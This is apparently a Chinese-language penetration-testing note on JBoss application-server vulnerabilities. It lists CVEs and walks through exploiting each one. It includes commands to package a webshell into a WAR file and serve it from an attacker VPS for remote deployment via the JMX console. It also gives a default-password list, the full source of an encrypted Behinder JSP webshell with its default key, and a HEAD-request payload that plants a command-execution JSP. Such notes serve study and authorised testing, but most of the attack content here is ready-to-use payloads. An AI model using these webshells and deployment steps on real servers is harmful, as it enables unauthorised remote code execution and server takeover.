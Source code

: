 
https://target.yijinglab.com
# JBoss漏洞
一个基于J2EE的开源的应用服务器, 用于管理EJB, 一般与Tomcat或Jetty使用, 核心服务不包括servelt/JSP WEB容器

## Jboss历史漏洞
### 访问控制不严格
- JMX Console未授权访问Getshell
- Administration Console 弱口令Getshell
- CVE-2007-1036 -- JMX Console HtmlAdaptor Getshell
- CVE-2010-0738 -- JMX控制台安全验证绕过漏洞

### 反序列化漏洞
- CVE-2013-4810 -- JBoss EJBInvokerServlet 反序列化漏洞
- CVE-2015-7501 -- JBoss JMXInvokerServlet 反序列化漏洞
- CVE-2017-7504 -- JBoss 4.x JBossMQ JMS 反序列化漏洞
- CVE-2017-12149 -- JBoss AS 6.X 反序列化漏洞

## JBoss历史漏洞发现
https://github.com/GGyao/jbossScan
https://github.com/joaomatosf/jexboss

## JBoss历史漏洞利用
### JMX Console未授权访问漏洞
访问webUI界面`http://ip:port/jmx-console`, 直接通过默认账号密码`admin`/`admin`登录或直接进入则漏洞存在
#### 远程部署war包
```shell
# 打包冰蝎jsp马为war包
jar -cvf shell.war shell.jsp

# 在vps上启动web服务
python -m http.server

# war包下载地址
http://vps-IP:8000/shell.war
```
1. 页面中的`jboss.deployment`选项(自带的部署功能)中的`flavor=url,type=DeplormentScanner`
	- 或`http://xx.xx.xx.xx:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.deployment:type=DeploymentScanner,flavor=URL`
2. `void addURL()`中ParamType字段为`java.util.list`, 使用远程服务器IP文件上传, 点击`Invoke`
3. 点击`Back to MBean View`确认查看, 点击`Apply Changes`
4. 回到`JMX-console`, 查看部署的木马是否存在, 访问`http://ip/shell/shell.jsp`冰蝎连接

### Jboss 弱口令
漏洞点`http://IP/admin-console`, 从8080主页面进入
```
admin/admin
jboss/jboss
admin/jboss
admin/123456
admin/password
```
- `Web Applicatoin(WAR)`-->`Content`部署WAR包

### JMX Console HtmlAdaptor Getshell
#### CVE-2007-1036
- /jmx-console/HtmlAdapter路径对外开放, 并且没有任何身份验证机制, 导致攻击者可以直接进入JMX控制台
- `jboss.admin`->`DeploymentFileRepository`->`store()`方法, 通过向四个参数传入信息Getshell
	- p1: war包名
	- p2: 上传的文件名
	- p3: 上传的文件格式
	- p4: 上传文件的内容
- p2和p3可以进行文件的拼接, p2=`she`, p3=`ll.jsp`, 会拼接为`shell.jsp
- 影响版本: `4.x`以下
- payload: `http://IP/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.admin:service=DeploymentFileRepository`
![[Pasted image 20230818210313.png]]
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```
- 访问`http://IP/job1/job1.jsp

#### CVE-2010-0738
- JMX Console 安全验证绕过
- 利用HEAD请求方法绕过HET和POST请求的限制
- 影响版本: `jboss4.2.0`--`jboss4.3.0`
```
HEAD /jmx-console/HtmlAdaptor?
action=invokeOp&name=jboss.admin:service=DeploymentFileRepository&methodIn
dex=6&arg0=../jmx-console.war/&arg1=hax0rwin&arg2=.jsp&arg3=
<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True
```


### JBoss 反序列化漏洞
- Java的序列化和反序列化:
	- 序列化: 将Java对象转换为字节序列, 在传递和保存对象时保证对象的完整性和可传递性, 转换为有序字节流, 以便网络上传输或保存在本地文件中
	- 反序列化: 把字节序列恢复为Java对象的过程, 根据字节流中保存的对象状态及描述信息, 通过反序列化重建对象
- https://github.com/joaomatosf/JavaDeserH2HC, 需要javac环境
- [JBoss历史漏洞汇总与复现_cve-2015-7501_码啊码的博客-CSDN博客](https://blog.csdn.net/m0_48108919/article/details/123919814)

[https://www.infosecmatter.com/metasploit-module-library/](https://www.infosecmatter.com/metasploit-module-library/)
#### CVE-2015-7501
- JMXInvokerSevlet 反序列化漏洞
- 在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象, 可以利用`Apache Commos Collections`中的`Gadge`执行任意代码
- 由于JBoss的`HTTPInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有在没有任何安全检查的情况下尝试将来自客户端的数据流进行反序列化
- 访问`http://IP:PORT/invoker/JMXInvokerServlet`, 会自动下载对应文件, 漏洞存在

#### CVE-2017-7504
- JBossMQ JMS 反序列化漏洞
- 影响版本: <=`JBoss AS 4.x`
- 不经验证执行反序列化, 路径`/jbossmq-httpil/HTTPServerILServlet

#### CVE-2017-12149
- 漏洞路径 `http://ip:port/invoker/readonly`, 显示500报错, 漏洞存在
- 影响范围: `JBoss 5.x - 6.x`
- [CVE-2017-12149（JBOSS反序列化远程代码执行漏洞）漏洞复现_Jerry____的博客-CSDN博客](https://blog.csdn.net/Jerry____/article/details/103506224)